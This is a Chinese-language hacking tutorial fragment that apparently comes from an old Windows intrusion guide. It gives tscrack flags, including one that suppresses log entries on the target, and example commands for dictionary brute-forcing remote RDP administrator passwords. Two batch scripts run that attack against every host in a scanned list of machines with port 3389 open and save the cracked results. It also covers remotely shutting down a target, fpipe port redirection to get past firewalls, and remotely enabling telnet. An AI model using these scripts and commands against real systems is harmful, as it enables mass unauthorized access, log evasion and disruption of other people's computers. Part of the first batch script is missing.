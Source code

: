 -b 密码错误时发出的声音

-t 同是发出多个连接（多线程）

-N Prevent System Log entries on targeted server

-U 卸载移除tscrack组件

-f 使用－f后面的密码

-F 间隔时间（频率）

-l 使用－l后面的用户名

-w 使用－w后面的密码字典

-p 使用－p后面的密码

-D 登录主页面

用法示例

tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

@if not exist ipcscan.txt goto noscan

@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

nscan

@echo 3389.txt no find or scan faild

(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

@if not exist tscrack.exe goto noscan

@tscrack %1 -l administrator -w pass.dic >>rouji.txt

:noscan

@echo tscrack.exe no find or scan faild

(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

其它

Shutdown.exe

Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息

Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。

OpenTelnet.exe (远程开启telnet工具)
